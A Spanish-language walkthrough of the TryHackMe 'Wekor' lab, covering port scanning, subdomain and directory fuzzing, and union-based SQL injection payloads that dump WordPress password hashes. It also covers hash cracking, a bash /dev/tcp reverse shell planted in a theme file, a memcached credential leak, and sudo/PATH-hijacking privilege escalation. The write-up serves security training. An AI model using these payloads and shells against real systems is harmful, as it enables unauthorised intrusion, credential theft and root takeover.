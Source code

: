 https://tryhackme.com/r/room/wekorra
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.236.132
```
![[Pasted image 20240531155032.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80 10.10.236.132
```
![[Pasted image 20240531155118.png]]
## Fuzzing
En /robots.txt
Encontramos haciendo búsquedas una web en /it-next

```
wfuzz -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t30 --hw 3 -H "Host:FUZZ.wekor.thm" "http://wekor.thm/"
```
![[Pasted image 20240531161205.png]]![[Pasted image 20240531161311.png]]
```
gobuster dir -u http://site.wekor.thm -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```
![[Pasted image 20240531161517.png]]
# Fase de ataque
## SQLI
El cupon es vulnerable a SQLI
![[Pasted image 20240531162432.png]]
Encontramos la cantidad de 3 columnas
```
' order by 3-- -
```
![[Pasted image 20240531162903.png]]
Ver bases de datos
```
' union select 1,2,group_concat(schema_name) from information_schema.schemata-- -
```
![[Pasted image 20240531163111.png]]Buscamos credenciales del wordpress
Ver las tablas de una BBDD
```
' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='wordpress'-- -
```
![[Pasted image 20240531163616.png]]
Ver las columnas de un tabla
```
' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='wordpress' and table_name='wp_users'-- -
```
![[Pasted image 20240531163726.png]]
Ver contenido de las columnas
```
' union select 1,2,group_concat(user_login,user_pass,display_name) from wordpress.wp_users-- -
```
![[Pasted image 20240531164924.png]]

## Crack Hash
```
hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240531165719.png]]
## Wordpress
Logging con wp_yura
## Reverse Shell
Editamos el Tema 404.php e insertamos una reverse shell
```
system("bash -c 'bash -i >& /dev/tcp/10.9.2.28/443 0>&1'");
```
![[Pasted image 20240531190415.png]]
Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
Ajustar proporciones
```
stty rows 44 columns 184
```
# Privilege Escalation
## Enumerar
![[Pasted image 20240531191237.png]]
![[Pasted image 20240531191825.png]]
## memcached service vulnerability
Ver credenciales
```
telnet 127.0.0.1 11211
OrkAiSC00L24/7$
```
![[Pasted image 20240531192518.png]]
Iniciar sesión
[-] ==pwned!==

![[Pasted image 20240531193314.png]]
```
sudo -u root /home/Orka/Desktop/bitcoin
```
Mira 
![[Pasted image 20240531194920.png]]

## Primer método
Hacemos que ejecute el /bin/bash
```
mv Desktop old
mkdir Desktop
cp /bin/bash ./Desktop/bitcoin
sudo -u root /home/Orka/Desktop/bitcoin
```
[+] ==pwned!==
## Segundo método
Usamos la herramienta de ingeniería reversa llamada Ghidra
## Ghidra
![[Pasted image 20240531214950.png]]
Encontramos la contraseña y vemos que ejecuta python sin ruta absoluta
Modificamos para que ejecute el Python en un archivo malicioso.
1. Creamos un archivo llamado python en /tmp
```
#!/bin/bash
/bin/bash
```
2. Le damos permiso
```
chmod 777 python
```
3. Lo exportamos al PATH
```
export PATH=/tmp:$PATH
```
4. Ejecutamos
```
sudo -u root /home/Orka/Desktop/bitcoin
```
[+] ==pwned!==
